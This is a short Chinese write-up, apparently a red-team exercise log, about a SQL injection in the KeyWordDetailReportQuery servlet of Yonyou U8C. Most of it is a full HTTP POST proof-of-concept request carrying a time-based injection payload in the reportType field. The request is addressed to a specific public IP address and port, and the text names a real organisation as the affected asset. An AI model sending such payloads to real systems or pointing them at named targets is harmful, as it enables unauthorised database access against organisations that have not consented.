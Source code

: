 # 用友U8C KeyWordDetailReportQuery_SQL sql注入漏洞

<br>

这里记录一下我在hw期间成功复现出来的

相关资产:百色农林投资集团

<br>

## 来源

<br>

[用友U8_cloud_KeyWordDetailReportQuery_SQL注入漏洞](https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8BU8_cloud_KeyWordDetailReportQuery_SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md)

<br>

## poc

<br>

````
POST /servlet/~iufo/nc.itf.iufo.mobilereport.data.KeyWordDetailReportQuery  HTTP/1.1
Host: 171.39.87.248:8088
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=D81BCB5B3EA994ACB2FFAAE607AFCF6B.server
If-None-Match: W/"1120-1532588472000"
If-Modified-Since: Thu, 26 Jul 2018 07:01:12 GMT
Connection: close
Content-Length: 133

{"reportType":"';WAITFOR DELAY '0:0:5'--","usercode":"18701014496","keyword":[{"keywordPk":"1","keywordValue":"1","keywordIndex":1}]}

````

<br>

可惜到了下午蓝方直接上了waf，过滤了特殊符号。没写报告只好作罢